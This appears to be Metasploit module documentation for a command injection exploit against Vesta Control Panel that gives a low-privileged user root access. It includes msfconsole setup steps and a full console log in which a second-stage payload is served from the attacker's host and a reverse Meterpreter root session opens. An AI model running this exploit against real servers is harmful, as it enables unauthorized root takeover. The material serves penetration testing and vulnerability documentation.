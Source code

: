 ## Vulnerable Application
This module exploits command injection vulnerability in v-list-user-backups bash script file. Low privileged authenticated users can execute arbitrary commands under the context of the root user.

An authenticated attacker with a low privileges can inject a payload in the file name starts with dot. During the user backup process, this file name will be evaluated by the v-user-backup bash scripts. As result of that backup process, when an attacker try to list existing backups injected payload will be executed.
        
## Vulnerable Application Installation Steps

You can install Vesta Control Panel on Linux server with following commands.

```
ssh root@your.server
curl -O http://vestacp.com/pub/vst-install.sh
bash vst-install.sh
```

Once you have finished the installation, go to https://IP_ADDR:8083/add/user/ and new unprivileged user with default package.


## Verification Steps

A successful check of the exploit will look like this:

1. Start `msfconsole`
2. `use exploit/linux/http/vestacp_exec `
3. Set `RHOST`
4. Set `LHOST`
4. Set `USERNAME`
4. Set `PASSWORD`
4. Set `SRVHOST`
4. Set `SRVPORT`
7. Run `exploit`
8. **Verify** that you are seeing `Successfully authenticated to the FTP service` in console.
9. **Verify** that you are seeing `Successfully uploaded the payload as a file name` in console.
9. **Verify** that you are seeing `Successfully authenticated to the HTTP Service` in console.
9. **Verify** that you are seeing `Scheduled backup has ben started. Exploitation may take up to 5 minutes.` in console.
9. **Verify** that you are seeing `It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...` in console.
9. **Verify** that you are seeing `First stage is executed ! Sending 2nd stage of the payload` in console.
15. **Verify** that you are getting meterpreter session.

## Scenarios

```
msf5 > use exploit/linux/http/vestacp_exec 
msf5 exploit(linux/http/vestacp_exec) > set RHOSTS 192.168.74.218
RHOSTS => 192.168.74.218
(reverse-i-search)`': set Interrupt: use the 'exit' command to quit
msf5 exploit(linux/http/vestacp_exec) > set USERNAME user11
USERNAME => user11
msf5 exploit(linux/http/vestacp_exec) > set PASSWORD qwe123
PASSWORD => qwe123
msf5 exploit(linux/http/vestacp_exec) > set LHOST 192.168.74.1 
LHOST => 192.168.74.1
msf5 exploit(linux/http/vestacp_exec) > set SRVHOST 192.168.74.1 
SRVHOST => 192.168.74.1
msf5 exploit(linux/http/vestacp_exec) > set SRVPORT 8081
SRVPORT => 8081
msf5 exploit(linux/http/vestacp_exec) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.74.1:4444 
[*] 192.168.74.218:8083 - Using URL: http://192.168.74.1:8081/jZlIgkU
[*] 192.168.74.218:8083 - Second payload download URI is http://192.168.74.1:8081/jZlIgkU
msf5 exploit(linux/http/vestacp_exec) > [+] 192.168.74.218:21 - Successfully authenticated to the FTP service
[+] 192.168.74.218:21 - Successfully uploaded the payload as a file name
[*] 192.168.74.218:8083 - Retrieving cookie and csrf token values
[+] 192.168.74.218:8083 - Cookie and CSRF token values successfully retrieved
[*] 192.168.74.218:8083 - Authenticating to HTTP Service with given credentials
[+] 192.168.74.218:8083 - Successfully authenticated to the HTTP Service
[+] 192.168.74.218:8083 - Scheduled backup has ben started. Exploitation may take up to 5 minutes.
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[+] 192.168.74.218:8083 - First stage is executed ! Sending 2nd stage of the payload
[*] Sending stage (53755 bytes) to 192.168.74.218
[*] Meterpreter session 1 opened (192.168.74.1:4444 -> 192.168.74.218:35102) at 2020-03-18 17:45:30 +0300
[-] 192.168.74.218:8083 - Exploit aborted due to failure: unknown: Something went wrong. Maybe session timed out ?
[*] 192.168.74.218:8083 - Server stopped.

msf5 exploit(linux/http/vestacp_exec) > sessions -i 1 
[*] Starting interaction with 1...

meterpreter > getuid 
Server username: root
meterpreter > 
```
